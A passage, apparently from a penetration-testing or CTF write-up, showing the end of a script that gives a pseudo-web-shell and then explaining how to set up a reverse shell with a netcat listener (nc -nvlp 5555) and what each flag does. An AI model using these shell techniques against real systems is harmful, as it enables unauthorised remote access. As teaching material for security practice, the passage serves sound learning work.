 ```python

        run_shell(cookie)
```

Running this program we can get a interactive psuedo-web-shell. 

![psuedo-shell](/assets/images/posts/rcci/psuedo-shell.png)

However, this shell has some limitations. Namely we can't `cd` and other stuff
so lets setup a reverse web-shell. 

## Setting up Reverse-Shell
Since firewalls are more likely to filter inbound traffic than outbound traffic, it's a more likely that a reverse shell will work. 

Our host machine will act as the server and listen for a connection on a port. 
```bash
sudo nc -nvlp 5555                                               
Listening on [0.0.0.0] (family 2, port 5555)
Listening on 0.0.0.0 5555
```

-n option says 'Do not do any DNS or service lookups on any specified addresses, hostnames or ports'. Which can speed up execution time.

-v is for a verbose output

-l Specifies nc to listen for an incoming connection. 

-p Specifies the source port nc should use. 
